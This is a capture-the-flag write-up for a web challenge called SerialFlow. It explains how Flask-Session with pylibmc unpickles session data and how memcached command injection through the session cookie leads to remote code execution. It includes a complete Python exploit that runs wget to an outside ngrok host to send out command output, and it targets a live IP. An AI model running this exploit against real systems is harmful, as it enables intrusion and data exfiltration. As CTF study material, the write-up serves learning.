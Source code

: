 ## **Description**
SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?
<br></br>

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```
The `memcached` is used for caching data 


In `requqirements.txt` we can see it uses `pylibmc==1.6.3` also `Flask-Session==0.4.0`

```txt
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```
After reading the sessions.py from `https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/sessions.py`

I found that it use the `cPickle` which is vulnerable to deserialization attack, After a bit of googling about memcached and cPickle i came accross this as POC of the exploit
`https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/`


<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(id)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```

